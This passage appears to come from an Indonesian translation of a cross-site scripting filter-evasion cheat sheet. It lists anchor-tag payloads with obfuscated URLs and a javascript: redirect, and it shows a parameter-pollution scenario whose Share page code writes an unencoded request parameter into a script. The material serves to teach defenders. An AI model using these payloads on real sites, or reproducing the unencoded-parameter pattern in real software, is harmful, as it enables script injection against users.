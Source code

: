 ```html
<A HREF="//www.google.com/">XSS</A>
```

#### Menghapus CNAME

Jika digabungkan dengan URL di atas, menghapus `www.` akan menghemat 4 byte tambahan sehingga total penghematan 9 byte untuk server yang telah menyiapkan ini dengan benar:

```html
<A HREF="http://google.com/">XSS</A>
```

Titik tambahan untuk DNS absolut:

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### Lokasi Tautan JavaScript

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### Ganti Konten sebagai Vektor Serangan


Dengan asumsi `http://www.google.com/` diganti secara terprogram dengan tidak ada apa-apa. Vektor serangan serupa telah digunakan terhadap beberapa filter XSS dunia nyata yang terpisah dengan menggunakan filter konversi itu sendiri (ini contohnya) untuk membantu membuat vektor serangan `java&\#x09;script:` diubah menjadi `java script:`, yang ditampilkan di IE:


```html
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```

### Membantu XSS dengan Pencemaran Parameter HTTP

Jika alur berbagi konten di situs web diterapkan seperti yang ditunjukkan di bawah ini, serangan ini akan berhasil. Ada halaman `Konten` yang menyertakan beberapa konten yang disediakan oleh pengguna dan halaman ini juga menyertakan tautan ke halaman `Bagikan` yang memungkinkan pengguna memilih platform berbagi sosial favorit mereka untuk membagikannya. Pengembang HTML mengodekan parameter `title` di halaman `Content` untuk mencegah XSS tetapi karena beberapa alasan mereka tidak mengodekan parameter ini ke URL untuk mencegah Pencemaran Parameter HTTP. Akhirnya mereka memutuskan bahwa karena nilai `content_type` adalah konstanta dan akan selalu berupa bilangan bulat, mereka tidak mengodekan atau memvalidasi `content_type` di halaman `Share`.

#### Kode Sumber Halaman Konten

```html
a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```

#### Kode Sumber Halaman Share

```js
<script>
var contentType = <%=Request.getParameter("content_type")%>;
var title = "<%=Encode.forJavaScript(request.getParameter("title"))%>"; ...
//beberapa perjanjian pengguna dan logika pengiriman ke server mungkin ada di sini
...
</script>
```
